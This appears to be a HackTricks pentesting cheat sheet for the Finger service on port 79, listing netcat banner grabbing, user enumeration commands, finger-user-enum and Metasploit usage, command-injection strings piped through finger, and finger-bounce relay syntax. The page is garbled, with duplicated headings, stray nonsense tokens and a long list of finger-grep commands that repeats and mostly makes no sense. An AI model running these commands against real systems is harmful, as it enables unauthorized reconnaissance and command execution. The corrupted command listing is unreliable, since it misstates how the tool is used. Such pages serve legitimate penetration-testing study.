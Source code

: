 # 79 - Pentesting Finger

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks AWS Red Team Expert</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Enumeration**

### **Banner Grabbing/Basic connection**

### **Banner Grabbing/Basic connection** (Banner Grabbing/Basic connection)
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **User enumeration**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
**finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) jImej: 

```
$ finger -l @<target>
$ finger -s @<target>
$ finger -l <username>@<target>
$ finger -s <username>@<target>
$ finger -l <username>@<target> | grep -i "login"
$ finger -s <username>@<target> | grep -i "login"
$ finger -l <username>@<target> | grep -i "shell"
$ finger -s <username>@<target> | grep -i "shell"
$ finger -l <username>@<target> | grep -i "home"
$ finger -s <username>@<target> | grep -i "home"
$ finger -l <username>@<target> | grep -i "name"
$ finger -s <username>@<target> | grep -i "name"
$ finger -l <username>@<target> | grep -i "plan"
$ finger -s <username>@<target> | grep -i "plan"
$ finger -l <username>@<target> | grep -i "project"
$ finger -s <username>@<target> | grep -i "project"
$ finger -l <username>@<target> | grep -i "office"
$ finger -s <username>@<target> | grep -i "office"
$ finger -l <username>@<target> | grep -i "phone"
$ finger -s <username>@<target> | grep -i "phone"
$ finger -l <username>@<target> | grep -i "email"
$ finger -s <username>@<target> | grep -i "email"
$ finger -l <username>@<target> | grep -i "address"
$ finger -s <username>@<target> | grep -i "address"
$ finger -l <username>@<target> | grep -i "info"
$ finger -s <username>@<target> | grep -i "info"
$ finger -l <username>@<target> | grep -i "about"
$ finger -s <username>@<target> | grep -i "about"
$ finger -l <username>@<target> | grep -i "description"
$ finger -s <username>@<target> | grep -i "description"
$ finger -l <username>@<target> | grep -i "bio"
$ finger -s <username>@<target> | grep -i "bio"
$ finger -l <username>@<target> | grep -i "blog"
$ finger -s <username>@<target> | grep -i "blog"
$ finger -l <username>@<target> | grep -i "website"
$ finger -s <username>@<target> | grep -i "website"
$ finger -l <username>@<target> | grep -i "url"
$ finger -s <username>@<target> | grep -i "url"
$ finger -l <username>@<target> | grep -i "web"
$ finger -s <username>@<target> | grep -i "web"
$ finger -l <username>@<target> | grep -i "social"
$ finger -s <username>@<target> | grep -i "social"
$ finger -l <username>@<target> | grep -i "twitter"
$ finger -s <username>@<target> | grep -i "twitter"
$ finger -l <username>@<target> | grep -i "facebook"
$ finger -s <username>@<target> | grep -i "facebook"
$ finger -l <username>@<target> | grep -i "linkedin"
$ finger -s <username>@<target> | grep -i "linkedin"
$ finger -l <username>@<target> | grep -i "instagram"
$ finger -s <username>@<target> | grep -i "instagram"
$ finger -l <username>@<target> | grep -i "github"
$ finger -s <username>@<target> | grep -i "github"
$ finger -l <username>@<target> | grep -i "gitlab"
$ finger -s <username>@<target> | grep -i "gitlab"
$ finger -l <username>@<target> | grep -i "bitbucket"
$ finger -s <username>@<target> | grep -i "bitbucket"
$ finger -l <username>@<target> | grep -i "docker"
$ finger -s <username>@<target> | grep -i "docker"
$ finger -l <username>@<target> | grep -i "aws"
$ finger -s <username>@<target> | grep -i "aws"
$ finger -l <username>@<target> | grep -i "gcp"
$ finger -s <username>@<target> | grep -i "gcp"
$ finger -l <username>@<target> | grep -i "azure"
$ finger -s <username>@<target> | grep -i "azure"
$ finger -l <username>@<target> | grep -i "cloud"
$ finger -s <username>@<target> | grep -i "cloud"
$ finger -l <username>@<target> | grep -i "saas"
$ finger -s <username>@<target> | grep -i "saas"
$ finger -l <username>@<target> | grep -i "paas"
$ finger -s <username>@<target> | grep -i "paas"
$ finger -l <username>@<target> | grep -i "iaas"
$ finger -s <username>@<target> | grep -i "iaas"
$ finger -l <username>@<target> | grep -i "vps"
$ finger -s <username>@<target> | grep -i "vps"
$ finger -l <username>@<target> | grep -i "vpn"
$ finger -s <username>@<target> | grep -i "vpn"
$ finger -l <username>@<target> | grep -i "proxy"
$ finger -s <username>@<target> | grep -i "proxy"
$ finger -l <username>@<target> | grep -i "ssh"
$ finger -s <username>@<target> | grep -i "ssh"
$ finger -l <username>@<target> | grep -i "ftp"
$ finger -s <username>@<target> | grep -i "ftp"
$ finger -l <username>@<target> | grep -i "http"
$ finger -s <username>@<target> | grep -i "http"
$ finger -l <username>@<target> | grep -i "https"
$ finger -s <username>@<target> | grep -i "https"
$ finger -l <username>@<target> | grep -i "smtp"
$ finger -s <username>@<target> | grep -i "smtp"
$ finger -l <username>@<target> | grep -i "pop3"
$ finger -s <username>@<target> | grep -i "pop3"
$ finger -l <username>@<target> | grep -i "imap"
$ finger -s <username>@<target> | grep -i "imap"
$ finger -l <username>@<target> | grep -i "dns"
$ finger -s <username>@<target> | grep -i "dns"
$ finger -l <username>@<target> | grep -i "mysql"
$ finger -s <username>@<target> | grep -i "mysql"
$ finger -l <username>@<target> | grep -i "postgresql"
$ finger -s <username>@<target> | grep -i "postgresql"
$ finger -l <username>@<target> | grep -i "oracle"
$ finger -s <username>@<target> | grep -i "oracle"
$ finger -l <username>@<target> | grep -i "mssql"
$ finger -s <username>@<target> | grep -i "mssql"
$ finger -l <username>@<target> | grep -i "mongodb"
$ finger -s <username>@<target> | grep -i "mongodb"
$ finger -l <username>@<target> | grep -i "redis"
$ finger -s <username>@<target> | grep -i "redis"
$ finger -l <username>@<target> | grep -i "elasticsearch"
$ finger -s <username>@<target> | grep -i "elasticsearch"
$ finger -l <username>@<target> | grep -i "couchdb"
$ finger -s <username>@<target> | grep -i "couchdb"
$ finger -l <username>@<target> | grep -i "cassandra"
$ finger -s <username>@<target> | grep -i "cassandra"
$ finger -l <username>@<target> | grep -i "ftp"
$ finger -s <username>@<target> | grep -i "ftp"
$ finger -l <username>@<target> | grep -i "sftp"
$ finger -s <username>@<target> | grep -i "sftp"
$ finger -l <username>@<target> | grep -i "tftp"
$ finger -s <username>@<target> | grep -i "tftp"
$ finger -l <username>@<target> | grep -i "telnet"
$ finger -s <username>@<target> | grep -i "telnet"
$ finger -l <username>@<target> | grep -i "smtp"
$ finger -s <username>@<target> | grep -i "smtp"
$ finger -l <username>@<target> | grep -i "pop3"
$ finger -s <username>@<target> | grep -i "pop3"
$ finger -l <username>@<target> | grep -i "imap"
$ finger -s <username>@<target> | grep -i "imap"
$ finger -l <username>@<target> | grep -i "dns"
$ finger -s <username>@<target> | grep -i "dns"
$ finger -l <username>@<target> | grep -i "mysql"
$ finger -s <username>@<target> | grep -i "mysql"
$ finger -l <username>@<target> | grep -i "postgresql"
$ finger -s <username>@<target> | grep -i "postgresql"
$ finger -l <username>@<target> | grep -i "oracle"
$ finger -s <username>@<target> | grep -i "oracle"
$ finger -l <username>@<target> | grep -i "mssql"
$ finger -s <username>@<target> | grep -i "mssql"
$ finger -l <username>@<target> | grep -i "mongodb"
$ finger -s <username>@<target> | grep -i "mongodb"
$ finger -l <username>@<target> | grep -i "redis"
$ finger -s <username>@<target> | grep -i "redis"
$ finger -l <username>@<target> | grep -i "elasticsearch"
$ finger -s <username>@<target> | grep -i "elasticsearch"
$ finger -l <username>@<target> | grep -i "couchdb"
$ finger -s <username>@<target> | grep -i "couchdb"
$ finger -l <username>@<target> | grep -i "cassandra"
$ finger -s <username>@<target> | grep -i "cassandra"
$ finger -l <username>@<target> | grep -i "ftp"
$ finger -s <username>@<target> | grep -i "ftp"
$ finger -l <username>@<target> | grep -i "sftp"
$ finger -s <username>@<target> | grep -i "sftp"
$ finger -l <username>@<target> | grep -i "tftp"
$ finger -s <username>@<target> | grep -i "tftp"
$ finger -l <username>@<target> | grep -i "telnet"
$ finger -s <username>@<target> | grep -i "telnet"
```
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Command execution

### Shodan

* `port:79 USER`

## Command execution
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

## qIj bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
